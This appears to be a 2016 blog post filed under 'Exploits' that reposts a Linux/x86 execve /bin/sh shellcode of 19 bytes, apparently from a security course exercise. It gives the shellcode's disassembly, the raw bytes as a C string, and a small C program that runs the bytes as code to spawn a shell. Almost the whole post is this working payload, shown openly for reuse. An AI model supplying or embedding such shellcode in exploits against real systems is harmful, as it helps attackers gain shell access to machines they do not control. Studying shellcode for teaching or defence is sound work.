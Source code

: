 <!--
author: zhuoliang
head: http://pingodata.qiniudn.com/jockchou-avatar.jpg
date: 2016-07-26
title: Exploits
tags: Resource, Hack
category: Hack
status: publish
-->

## Linux/x86 - execve /bin/sh Shellcode (19 bytes) ##

> Every Exploit, Shellcode and Paper

    /*
    # Linux/x86 - execve /bin/sh shellcode (19 bytes)
	# Author: sajith
	# Tested on: i686 GNU/Linux
	# Shellcode Length: 19
	# SLAE - 750
 
	Disassembly of section .text:
 
	08048060 <_start>:
	8048060: 31 c0 xor eax,eax
	8048062: 50 push eax
	8048063: 68 2f 2f 73 68 push 0x68732f2f
	8048068: 68 2f 62 69 6e push 0x6e69622f
	804806d: 87 e3 xchg ebx,esp
	804806f: b0 0b mov al,0xb
	8048071: cd 80 int 0x80
	===============poc by sajith shetty=========================
	*/
 
	#include<stdio.h>
	#include<string.h>
 
	unsigned char code[] = \
		"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x87\xe3\xb0\x0b\xcd\x80";

	int main()
	{
		printf("Shellcode Length: %d\n", strlen(code));
		int (*ret)() = (int(*)())code;
		ret();
 		return 0;
	}

